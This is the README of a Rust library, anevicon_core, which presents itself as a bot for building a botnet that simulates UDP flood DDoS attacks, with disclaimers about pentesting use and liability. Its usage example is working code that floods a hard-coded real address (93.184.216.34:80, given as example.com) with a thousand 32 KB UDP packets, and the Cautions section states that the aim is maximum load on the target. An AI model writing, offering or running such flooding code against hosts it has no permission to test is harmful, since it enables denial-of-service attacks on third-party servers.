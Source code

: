 <div align="center">
  <h1>anevicon_core</h2>
  
  <a href="https://gitter.im/Gymmasssorla/anevicon">
    <img src="https://img.shields.io/badge/chat-on%20gitter-pink.svg">
  </a>
  <a href="https://travis-ci.com/Gymmasssorla/anevicon">
    <img src="https://travis-ci.com/Gymmasssorla/anevicon.svg?branch=master">
  </a>
  <a href="https://github.com/Gymmasssorla/anevicon/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/license-GPLv3-blue.svg">
  </a>
  <a href="https://crates.io/crates/anevicon_core">
    <img src="https://img.shields.io/badge/crates.io-v0.2.0-orange.svg">
  </a>
  <a href="https://docs.rs/anevicon_core">
    <img src="https://img.shields.io/badge/docs.rs-link-blue.svg">
  </a>
  <a href="https://semver.org">
    <img src="https://img.shields.io/badge/semver-follows-green.svg">
  </a>
  
  This crate can be used as a bot to build a [botnet](https://en.wikipedia.org/wiki/Botnet) for simulating [UDP-based DDoS attacks](https://en.wikipedia.org/wiki/UDP_flood_attack) (but only for educational and pentesting purposes, see [the GPLv3 license](https://github.com/Gymmasssorla/anevicon/blob/master/LICENSE), under which the library is distributed).
  
This library was designed to be as convenient and reliable as it is possible, and without any external dependencies (except of
the standard library). If you are just interested in one single program, please take a look at [this one](https://docs.rs/anevicon_core/0.1.0/anevicon_core/).
</div>

## Usage

(`Cargo.toml`):
```toml
[dependencies]
anevicon_core = "*"
```

(`src/main.rs`):
```rust
use anevicon_core::summary::TestSummary;
use anevicon_core::testing::execute;

// Setup the socket connected to the example.com domain
let socket = std::net::UdpSocket::bind("0.0.0.0:0").unwrap();
socket
    .connect("93.184.216.34:80")
    .expect("Cannot connect the socket to example.com");

let mut summary = TestSummary::default();

// Execute a test that will send one thousand packets
// each containing 32768 bytes.
execute(&socket, &vec![0; 32768], &mut summary)
    .take(1000)
    .for_each(|result| {
        if let Err(error) = result {
            panic!("{}", error);
        }
    });

println!(
    "The total seconds passed: {}", summary.time_passed().as_secs()
);
```

For more details please look through [the official documentation](https://docs.rs/anevicon_core).

## Cautions
 - The goal of Anevicon Core is to produce the maximum possible (for the attacking system) load on the specified target address. Thereby, this **DOES NOT MEAN** that Anevicon Core will break **ABSOLUTELY ANY SERVER** while running on your computer.
 
- Anevicon Core was developed as a means of testing stress resistance of web servers, and not for hacking, that is, the author of the project **IS NOT RESPONSIBLE** for any damage caused by your use of my library. See [the license notice](https://github.com/Gymmasssorla/anevicon/blob/master/LICENSE#L600).
 
 - Despite the fact that Anevicon Core is heavily tested both automatically and manually, does not mean that the author is responsible for any bug in his work. The library comes with **ABSOLUTELY NO WARRANTY**, see [the license disclaimer](https://github.com/Gymmasssorla/anevicon/blob/master/LICENSE#L589).

## Contacts
[Temirkhan Myrzamadi](https://github.com/Gymmasssorla) <[gymmasssorla@gmail.com](mailto:gymmasssorla@gmail.com)> (the author)
